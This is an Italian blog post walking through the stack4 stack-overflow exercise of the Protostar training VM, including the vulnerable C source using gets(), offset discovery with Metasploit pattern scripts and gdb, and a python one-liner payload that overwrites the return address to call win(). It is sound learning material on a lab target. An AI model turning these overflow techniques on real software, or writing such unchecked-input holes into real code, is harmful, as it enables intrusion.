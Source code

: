 title:  Soluzione stack4 dei Protostar exploit exercises
date:   13-01-2020
slug:   protostar-stack4
category: security
summary: Proviamo a risolvere uno degli exploit exercises presenti nella VM [Protostar](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/)

[Protostar](https://www.vulnhub.com/entry/exploit-exercises-protostar-v2,32/) è una Virtual Machine appositamente sviluppata per permettere di imparare a sfruttare diversi tipi di vulnerabilità.

In questo post andremo ad affrontare uno degli stack overflow, in particolare
la sfida stack4.

Il codice sorgente di questa sfida è:

```c
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  void win()
  {
    printf("code flow successfully changed\n");
  }

  int main(int argc, char **argv)
  {
    char buffer[64];

    gets(buffer);
  }
```

Troviamo il binario in `/opt/protostar/bin/stack4`.

L'uso di `gets(buffer)` rende evidente che il binario è vulnerabile ad un buffer overflow.
Mi creo quindi una stringa di overflow che mi permetta di ricavare l'offset sullo stack dell'indirizzo di ritorno.

Per farlo uso una VM con [Metasploit](https://www.metasploit.com/),
in particolare andremo ad usare lo script `pattern_create.rb` per generare una stringa di lunghezza 100 byte: `./pattern_create.rb -l 100`,
lo metto in un file prova, lo passo al programma tramite gdb

```
gdb
(gdb) run < /tmp/prova
```
Leggo l'indirizzo di segmentation fault

```
Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()
```

A questo punto passo questo indirizzo alla VM metasploit, usando lo script `pattern_offset.rb` in modo da ottenere l'offset sullo stack dell'indirizzo di ritorno
`./pattern_offset.rb -q 63413563`

Otterrò che l'offset dell'indirizzo di ritorno è di 76 byte.
A questo punto vado a riempire tutto l'offset con delle 'A', poi metto l'indirizzo della funzione `win()` che voglio eseguire.

Trovo l'indirizzo della funzione `win` con `objdump`

```
objdump -d ./stack4 | grep win
080483f4 <win>:
```

Quindi so che dovrò passare questo indirizzo (cambiando l'ordine dei byte visto che siamo su x86 che è little endian) in questo modo:

```
python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | ./stack4
code flow successfully changed
```

voilà, abbiamo ottenuto il nostro risultato.

